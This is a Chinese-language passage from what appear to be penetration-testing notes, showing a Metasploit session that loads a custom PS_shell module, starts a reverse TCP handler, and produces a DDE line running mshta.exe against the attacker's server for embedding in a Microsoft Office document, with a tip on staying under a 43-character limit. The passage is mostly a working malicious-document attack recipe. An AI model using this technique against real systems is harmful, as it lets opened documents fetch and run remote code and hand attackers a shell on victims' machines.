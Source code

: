 加载攻击脚本，然后进入msf执行命令：

```clike
msf > use exploit/windows/PS_shell
msf exploit(windows/PS_shell) > options 

Module options (exploit/windows/PS_shell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/PS_shell) > set uripath 123
uripath => 123

msf exploit(windows/PS_shell) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.107.10.77:4444 
msf exploit(windows/PS_shell) > [*] Using URL: http://0.0.0.0:8080/123
[*] Local IP: http://10.107.10.77:8080/123
[*] Server started.
[*] Place the following DDE in an MS document:
mshta.exe "http://10.107.10.77:8080/123"
```

命令长度有43字符的限制，可以使用URIPATH设置路径，尽量短一点，避免加起来超过43字符

![image-20230802140155447](./主机渗透.assets/image-20230802140155447.png) 
